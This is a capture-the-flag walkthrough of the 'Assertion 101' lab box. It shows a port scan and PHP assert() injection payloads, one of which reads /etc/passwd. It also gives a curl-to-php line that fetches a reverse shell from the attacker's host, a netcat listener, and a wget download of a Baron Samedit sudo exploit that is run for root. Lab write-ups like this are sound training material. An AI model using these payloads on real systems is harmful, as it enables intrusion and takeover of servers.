 ```yaml
---
title: Assersion 101
categories: [Proving Grounds, Play]
tags: [LFI, PrivEsc, RCE, sudo exploit]  
image:
  path: /Vulnhub-Files/img/Assersion101/Untitled.png
  alt: Assertion 101 Machine 🖥️ 
---
```



## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Assertion101]
└─$ cat Nmap_results.txt
# Nmap 7.94 scan initiated Tue Jul 18 21:13:55 2023 as: nmap -sC -sV -p- -T4 -oN Nmap_results.txt 192.168.187.94
Warning: 192.168.187.94 giving up on port because retransmission cap hit (6).
Nmap scan report for 192.168.187.94
Host is up (0.17s latency).
Not shown: 65466 closed tcp ports (reset), 67 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:ce:aa:cc:02:de:a5:a3:58:5d:da:2b:ef:54:07:f9 (RSA)
|   256 9d:3f:df:16:7a:e1:59:58:84:4a:e3:29:8f:44:87:8d (ECDSA)
|_  256 87:b5:6f:f8:21:81:d3:3b:43:d0:40:81:c0:e3:69:89 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Assertion
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
{: .nolineno}

---

## Web Enumeration ➡️

![Untitled](/Vulnhub-Files/img/Assersion101/Untitled%201.png)

Now while surfing I tried LFI on `page` parameter →

![Untitled](/Vulnhub-Files/img/Assersion101/Untitled%202.png)

Now lets try some other type of payloads ⤵️

[LFI via PHP`s ‘assert’](https://book.hacktricks.xyz/pentesting-web/file-inclusion#lfi-via-phps-assert)

![Untitled](/Vulnhub-Files/img/Assersion101/Untitled%203.png)

payload used like This →

```bash
http://192.168.152.94/index.php?page=%27%20and%20die(show_source(%27/etc/passwd%27))%20or%20%27
```
{: .nolineno}

In response I got this →

![Untitled](/Vulnhub-Files/img/Assersion101/Untitled%204.png)

Now lets use another payload for Remote Command Execution (RCE) → 

![Untitled](/Vulnhub-Files/img/Assersion101/Untitled%205.png)

Lets try reverse shell code →

```bash
http://192.168.152.94/index.php?page=' and die(system("curl http://192.168.45.152/shell.php|php")) or '
```
{: .nolineno}

In response to that I got the shell →

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Assertion101]
└─$ nc -lvnp 4444       
listening on [any] 4444 ...

connect to [192.168.45.152] from (UNKNOWN) [192.168.152.94] 54592
Linux assertion 4.15.0-74-generic #84-Ubuntu SMP Thu Dec 19 08:06:28 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 17:41:39 up 50 min,  0 users,  load average: 0.00, 0.00, 0.11
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: cant access tty; job control turned off
$ $ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@assertion:/$ whoami
whoami
www-data
www-data@assertion:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@assertion:/$
```
{: .nolineno}

Now I checked the sudo version and then I exploited the vulnerability of **[CVE-2021-3156 (Sudo Baron Samedit)](https://github.com/worawit/CVE-2021-3156#cve-2021-3156-sudo-baron-samedit)**

```bash
www-data@assertion:/home$ sudo -V
sudo -V
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
www-data@assertion:/home$ cd /tmp
cd /tmp
www-data@assertion:/tmp$ wget http://192.168.45.152/exploit_nss.py
wget http://192.168.45.152/exploit_nss.py
--2023-10-09 17:46:10--  http://192.168.45.152/exploit_nss.py
Connecting to 192.168.45.152:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8179 (8.0K) [text/x-python]
Saving to: 'exploit_nss.py'

exploit_nss.py        0%[                    ]       0  --.-KB/exploit_nss.py      100%[===================>]   7.99K  --.-KB/s    in 0.003s  

2023-10-09 17:46:11 (2.95 MB/s) - 'exploit_nss.py' saved [8179/8179]

www-data@assertion:/tmp$ 
www-data@assertion:/tmp$ chmod +x exploit_nss.py	
chmod +x exploit_nss.py 
www-data@assertion:/tmp$ ls -al
ls -al
total 16
drwxrwxrwt  2 root     root     4096 Oct  9 17:46 .
drwxr-xr-x 26 root     root     4096 Sep 14  2020 ..
-rwxrwxrwx  1 www-data www-data 8179 Jun 22 10:25 exploit_nss.py
prw-r--r--  1 www-data www-data    0 Oct  9 17:24 f
www-data@assertion:/tmp$ python3 exploit_nss.py
python3 exploit_nss.py
# /bin/bash -i
/bin/bash -i
root@assertion:/tmp# whoami
whoami
root
root@assertion:/tmp# id
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
root@assertion:/tmp# cd /root
cd /root
root@assertion:/root# ls -al
ls -al
total 36
drwx------  5 root root 4096 Oct  9 16:54 .
drwxr-xr-x 26 root root 4096 Sep 14  2020 ..
lrwxrwxrwx  1 root root    9 Jan 16  2020 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwx------  3 root root 4096 Jan 16  2020 .cache
drwx------  3 root root 4096 Jan 16  2020 .gnupg
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwx------  2 root root 4096 Jan 16  2020 .ssh
-rw-------  1 root root    0 Sep  8  2020 .viminfo
-rw-r--r--  1 root root   33 Oct  9 16:54 proof.txt
-rw-r--r--  1 root root   32 Sep  8  2020 root.txt
root@assertion:/root# cat root.txt
cat root.txt
Your flag is in another file...
root@assertion:/root# cat proof.txt
cat proof.txt
FLAGFLAGFLAGFLAGFLAG
root@assertion:/root# cd /
root@assertion:/# find / -name local.txt 2>/dev/null
find / -name local.txt 2>/dev/null
/var/www/local.txt
root@assertion:/# cat /var/www/local.txt
cat /var/www/local.txt
FLAGFLAGFLAGFLAGFLAG
root@assertion:/# ifconfig
ifconfig
ens192: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.152.94  netmask 255.255.255.0  broadcast 192.168.152.255
        inet6 fe80::250:56ff:feba:8eed  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:ba:8e:ed  txqueuelen 1000  (Ethernet)
        RX packets 1903  bytes 201740 (201.7 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 2063  bytes 2686114 (2.6 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 786  bytes 61626 (61.6 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 786  bytes 61626 (61.6 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

root@assertion:/#
```
{: .nolineno}

I am root now I can access all the flags !!

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }